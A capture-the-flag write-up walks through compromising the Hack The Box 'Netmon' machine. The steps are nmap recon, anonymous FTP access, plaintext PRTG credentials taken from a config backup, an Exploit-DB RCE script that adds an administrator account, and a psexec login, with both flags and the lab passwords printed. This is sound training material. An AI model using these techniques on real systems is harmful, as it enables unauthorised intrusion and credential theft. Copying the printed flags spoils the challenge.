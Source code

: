 ### IP
`10.10.10.152`

# Recon

### nmap
`nmap -sC -sV Netmon.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-22 02:53 EST
Nmap scan report for 10.10.10.152
Host is up (0.049s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m26s, deviation: 0s, median: 3m25s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-22T07:57:26
|_  start_date: 2020-11-22T07:55:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds

```
* Looks like nmap found an ftp server and automatically showed us the directories
* We also have a web server running Indy httpd
* We also have smb running

# Exploitation

### ftp
* This one was super easy. 
* We can log in to the server with `ftp 10.10.10.152`. 
	We can log in anonymously with the `anonymous` username and no password
* Once we cd to `/Users/Public`
* Now, we can download the file with `get user.txt`. 
* After that, we can just cat it on our own machine to get the user flag: `dd58ce67b49e15105e88096c8d9255a5`

### PRTG
* I did some digging and found [this](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) reddit post, which explains that old version of PRTG store credentials in plaintext at `C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak`

	* Downloading that file on the ftp server and runnning get on it will give us a file, which when examined a bit gives us this: 
```xml
   </dbcredentials>
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
```
* Username: `prtgadmin`
* Password: `PrTg@dmin2018`

* Unfortunately, this password didn't work so I tried out a couple other years for the password
* `PrTg@dmin2019` worked
	* Strangely it didn't work for me at first and I was getting really frustrated, but when I came back the next day (and I assume the machine was reset), it worked. So maybe reset the machine if you run into the same issue

* Now we can log in!


### privesc
* Now that we have the login credentials, I remembered that searchsploit had a module for authenticated remote code execution
* For some reason the one on my computer wasn't working, so I ended up copying the code from [here](https://www.exploit-db.com/exploits/46527) to `exploit.sh`
* It turns out we have to have some cookie information for the exploit to work. I just went into the `network` section of inspect element to get it.
* Here's the complete command: `./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1911846024.1606031704; _gid=GA1.4.667691852.1606031704; OCTOPUS1813713946=e0ExRkMzQzcxLUY3MzAtNDJBMS1BNEU2LTBDRjFDREExMEUzRn0;"`
* When that finishes executing, it gives the following output:
```

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```
* A user in the administrators group with the username `pentest` and the password `P3nT3st!`
* After what must have been an hour of fiddling with tools, I finally figured out how to log in with the credentials
	* [this](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/) blog helped out a lot
* A script called `psexec` lets us log in with the command `python3 psexec.py pentest:'P3nT3st!'@10.10.10.152`
* Once in the machine, we can cd over to '\Users\Administrator\Desktop` and print the file with `more root.txt`
* The root flag is `3018977fb944bf1878f75b879fba67cc`
  
